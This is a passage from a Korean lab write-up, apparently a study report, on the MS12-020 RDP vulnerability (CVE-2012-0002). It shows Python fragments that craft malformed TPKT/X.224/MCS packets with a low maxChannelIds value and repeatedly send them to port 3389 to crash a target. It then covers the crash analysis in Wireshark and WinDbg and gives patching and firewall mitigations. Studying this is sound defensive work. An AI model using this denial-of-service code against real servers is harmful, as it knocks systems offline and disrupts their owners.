```

※ TPKT: 캡슐화 프로토콜이며 OSI 패킷을 자체 패킷의 데이터 페이로드로
전달한 다음 결과 구조를 TCP

프로토콜 통신으로 전달한 다음 패킷을 TCP/IP 패킷으로 처리한다.

**3. Client MCS Attach User Request PDU 패킷 바이트 변조**




패킷 바이트 변조




바이트 변조

``` python
buf+=\"\\x03\\x00\\x00\\x08\" \# TPKT, Version 3, length 8

buf+=\"\\x02\\xf0\\x80\" \# ITU-T Rec X.224
```

**4. Connect-Initial영역의 targetParameters 필드 패킷 바이트 변조**




변조



``` python
buf+=\"\\x01\\x01\\x04\\x01\\x01\\x01\\x01\\xff\" 

buf+=\"\\x30\\x19\\x02\\x04\\x00\\x00\\x00\\x00\"     \# maxChannelids
```

**5. 변조 패킷 전송 부분**

변조 패킷 덤프를 대상 서버로 RDP 기본 포트 3389를 향해 TCP 프로토콜
통신을 진행한다. 연결이 성사되면 변조 패킷 덤프를 전송한후 그에 대한
응답 값을 받은 후 연결이 종료된다.

``` python
HOST = sys.argv[1] # 사용자측 인자 값 (대상 호스트 입력)

PORT = 3389        # TCP/3389

for i in range(1000):

    # IPv4 주소 사용/TCP 프로토콜 통신

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    s.connect((HOST,PORT)) # 연결 수립

    print "sending: %d bytes" % len(buf)

    s.send(buf) #페이로드 전송

    rec = s.recv(100) # 대상 서버 응답 값

    print "received: %d bytes" % len(rec)

    s.close() # 연결 종료
```

### 공격 코드 실행

**1. 공격 코드 동작**

변조되어진 패킷을 TCP 프로토콜 통신을 통해 전송한다. 공격자 측에서 보낸
페이로드를 보낸 후 대상 서버는 정상적인 RDP 패킷으로 인지한후 응답 값을
보낸다. 공격자 측에서 인터럽트를 걸지 않는 이상 계속 패킷을 전송한다.




**2. 대상 서버 BSOD 장애 발생**

**2.8.7** 장에서 Metasploit maxchannelids module을 통해서 점검을 한 후
발생한 BSOD 와 공격 코드를 통해보내 발생한 BSOD를 분석해본 결과 오류가
발생하는 파일은 RDPWD.SYS, termdd.sys 인것을 유추할 수 있다.



원격 데스크톱 연결 기능이 활성화되어 있고 대상 IP 주소만 대입한 후
공격을 수행을 하면 해당 컴퓨터는 BSOD 장애가 발생한후 일정 시간 후에
자동 재부팅이 진행된다.



이런 과정에서 그림 5‑5 나오면서 부팅 과정 대기 상태가 유지될 수 있으며
복구를 하기 위해서는 관리자가 직접 수동으로 재부팅을 진행해야 정상
부팅이 진행된다.

## 공격 기법 분석

### Wireshark 동적 분석

**1. 세션 수립 과정**

TCP 3-way Handshake 과정을 통해 클라이언트와 서버 사이의 세션을
수립한다. 클라이언트 측에서 SYN 패킷을 보낼 때 기존에 사용하던 임시
포트를 재사용하였다는 것을 TCP Port numbers reused 메시지를 통해 확인
가능하다. 서버로부터 SYN, ACK 패킷을 받을 때 이전의 세그먼트를 확인하지
못하고 패킷 손실이 발생했지만 클라이언트에서는 해당 응답을 받고 세션이
수립됐다.

![](./image39.png


**2. 페이로드 전송 과정**

RDP 연결 요청 부분의 X.224, TPKT 헤더의 바이트 값이 수정되어 서버 측으로
전송됨을 확인할 수 있다.




부분

Client MCS Attach User Request PDU 헤더의 바이트 값이 수정되어 서버
측으로 전송됨을 확인할 수 있다.




Request PDU 바이트 변조 부분

T.125 ConnectMCSPDU 패킷의 maxChannelids 필드 부분이 5보다 작은 값으로
설정되어 전송하게 되어 버그가 발생하는 부분과 동일하다. 전체적인 패킷
바이트 변조를 서버 측으로 전송한다.




ConnectMCSPDU 패킷을 전송한후 5.4.2 장의 RDP 연결 과정을 수행한다.





### Windbg 동적 분석

**1. 서버측 BSOD 분석**

피해자 서버에서 발생한 BSOD 메모리 덤프를 통해 어느 부분에서 예외가
발생하였는지 확인한다. 그림 4‑4장에서 설치한 BlueScreenView를 통해 오류
메시지와 예외 함수 주소 값을 확인한다.




``` python
  **덤프 파일명**   061020-13343-01.dmp        **발생 날짜**   6/10/2020 6:14:37 PM
  ----------------- -------------------------- --------------- ----------------------
  **예외 문자열**   SYSTEM_SERVICE_EXCEPTION   **예외 코드**   0x0000003b
  **파라미터**      00000000-c0000005                          
                    **fffff880-011c9722**                      
                    fffff880-0cad81f0                          
```


**2. BSOD 메모리 덤프 파일 분석 환경**

windbg를 통해 분석하기 위해 그림 4‑1장에서 구성한 대상 서버에서 발생한
메모리 덤프를 분석하고 자하는 로컬 환경으로 가져온다.




**3. windbg 심볼 설정**

메모리 덤프파일이 빌드 될 때 생성되는 디버깅 정보파일을 불러오기 위해
해당 심볼을 설정한다.




``` cpp
.\\windbg.exe -y srv\*c:\\symbols\*http://msdl.microsoft.com/download/symbols
     -z D:\\STUDY\\PenTest_Study\\Project\\Day4_5\\report\\bluescreen_dmp\\061020-13343-01.dmp
```

``` python
+-------------------+-------------------------------------------------+
| **옵션**          | **내용**                                        |
+===================+=================================================+
| **-y SymbolPath** | -   심볼 경로 지정 및 다중 경로는 세미콜론 구분 |
|                   |                                                 |
|                   | -   경로에 띄어쓰기가 존 재시 따옴표를 통해     |
|                   |     그룹화                                      |
+-------------------+-------------------------------------------------+
| **-z DumFile**    | -   메모리 덤프 파일 이름 지정                  |
|                   |                                                 |
|                   | -   경로에 띄어쓰기가 존 재시 따옴표를 통해     |
|                   |     그룹화                                      |
+-------------------+-------------------------------------------------+
| **srv\***         | -   심볼 캐쉬 저장할 경로와 심볼 파일이         |
|                   |     존재하는 경로 (\*, asterisk) 구분자를 통해  |
|                   |     구분한다.                                   |
+-------------------+-------------------------------------------------+
```


심볼 설정을 로드 한 후 지정한 심볼 캐시가 저장될 경로에는 메모리 덤프를
진행한후 심볼 캐시가 남아있는 모습을 확인할 수 있다.




**4. windbg 메모리 덤프 로딩**

심볼 설정을 마치고 windbg에서는 심볼을 다운로드가 완료된 후 !analyze -v
명령을 통해 메모리 덤프 파일의 상세 정보를 출력한다.





**5. 예외 발생 위치 분석**

메모리 덤프 파일에서 볼 수 있듯이 termdd!IcaBufferAllocEx. 함수에서
오류가 발생한다. 해당주소의 명령어는 fxffff880-0x11c9722에서 포인터를
읽으려고 시도한다. 다음 명령어는 포인터가 qword 가리키는 점을 참조하여
그 값을 0과 비교한다.





**6. 호출 스택 분석**

호출 스택 부분을 보면 termdd.sys 파일 내부에 IcaBufferAllocEx 함수가
RDPWD.sys 드라이버에서 호출되며 NM_Disconnect 함수가 다시 호출되어
세션이 끊어짐과 동시에 오류가 발생하는 것을 알 수 있다.




``` python
+----------------+----------------------------------------------------+
| **파일**       | **내용**                                           |
+================+====================================================+
| **RDPWD.sys**  | -   RDP 터미널 스택 드라이버                       |
+----------------+----------------------------------------------------+
| **termdd.sys** | -   RDP의 구성 요소 및 터미널 서버 드라이버        |
|                |                                                    |
|                | -   마우스 및 키보드 드라이버는 termdd.sys를 통해  |
|                |     통신한다.                                      |
|                |                                                    |
|                | -   마우스 및 키보드 작업에 대한 메시지를 RDP      |
|                |     드라이버와 주고받는다.                         |
|                |                                                    |
|                | -   RDP 클라이언트 세션을 원격으로 사용하고        |
|                |     커뮤니케이션이 가능하다.                       |
+----------------+----------------------------------------------------+
```


**7. 오류 발생 흐름도**



Luigi Auriemma가 처음 보고한 바와 같이 Use-After-Free 취약성은 5이하의
값으로 설정되었을 때 T.125 ConnectMCSPDU 패킷의 maxChannelids 필드에서
오류가 발생한다는 사실을 알 수 있다. 해당 문제는
RDPWD!NM_Disconnect시작하는 동안 사용자의 접속을 끊고 발생되지만 메모리
덤프를 통해서 알아본 결과 exploit 코드로 인해 발생하는 문제는
termdd!IcaBufferAlloc 에 표시된 것을 확인할 수 있다.

# 결론

CVE-2012-0002는 2012년에 발생하였었던 취약점이었지만 현재 사회에서 원격
통신 비중이 늘어나면서 발생할 수 있는 취약점이기에 간과해서는 안된다.
많은 사용자들은 RDP 기반의 애플리케이션을 사용함에 있어서 보안성과
중요성을 크게 느끼지 못해 비 정기적인 보안 업데이트를 소홀히 하면 그
위협은 MS 취약점뿐만 아니라 그 이상이 될 수 있다.

중요한 것은 과거에 발생했던 취약점이더라도 해도 보안은 작은 결
함으로부터 시작되기 때문에 지속적으로 새로운 취약점과 잠재적인 보안
위험에 대한 지속적인 관심을 갖어야 한다. 단순히 안티바이러스를
설치했다고 해서 해결할 수 있는 부분이 아니다.

# 대응 방안

## 보안 업데이트 설치

**1. 최신 보안 패치 설치**

윈도우 명령어 wmic qfe \| find "KB2621440" 사용하여 MS12-020 보안 취약점
업데이트가 설치되었는지 확인한다. 미설치시 업데이트를 진행한다.




마이크로소프트 문서 사이트로 접속하여 점검하고 자하는 OS를 찾아 패치를
진행하면 되겠다.
```
// 마이크로소프트 MS12-020 보안 패치

https://docs.microsoft.com/ko-kr/security-updates/SecurityBulletins/2012/ms12-020
```

**2. 방화벽 작동**

윈도우 계열의 운영체제에서 제공하는 방화벽은 항상 동작하게 한다.
기본적인 패킷 필터링 기능을 제공하기 때문에 근본적인 침입 차단은 막을 수
있다.


**3. 원격 시스템 해제**

이 컴퓨터에 대한 원격 지원 연결 허용 옵션 해제, 이 컴퓨터에 대한 원격
연결 허용 안 함 선택 설정을 함으로써 MS12-020 취약점의 근본적인 차단이
가능하다.


## Reference
https://docs.                                                        
microsoft.com/ko-kr/security-updates/SecurityBulletins/2012/ms12-020 
                                                                     
(Microsoft -- MS12-020 보안 패치)                                    
                                                                     
https://docs.microsoft.com/en-us/windows                             
-hardware/drivers/debugger/bug-check-0x3b\--system-service-exception 
                                                                     
(Microsfot -- BSOD Bug check)                                        
                                                                     
https://support.microsoft                                            
.com/ko-kr/help/186607/understanding-the-remote-desktop-protocol-rdp 
                                                                     
(Microsfot -- RDP 이해)                                              
                                                                     
https://docs.microsoft                                               
.com/en-us/windows/win32/termserv/terminal-services-virtual-channels 
                                                                     
(Microsfot -- RDP 가상 채널)                                         
                                                                     
https://docs.microsoft.com/en-us/openspe                             
cs/windows_protocols/ms-rdpbcgr/18a27ef9-6f9a-4501-b000-94b1fe3c2c10 
                                                                     
(Microsfot -- X.224)                                                 
                                                                     
https://docs.microsoft.com/en-us/openspe                             
cs/windows_protocols/ms-rdpbcgr/023f1e69-cfe8-4ee6-9ee0-7e759fb4e4ee 
                                                                     
(Microsoft -- RDP 연결 과정)                                         
                                                                     
https://community.tenable.com/                                       
                                                                     
(Tenble -- Community)                                                
                                                                     
https://osqa-ask.wireshark.org/questions/                            
                                                                     
(Wireshark -- Question)                                              
                                                                     
https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator                 
                                                                     
(NVD)                                                                
                                                                     

```toc
```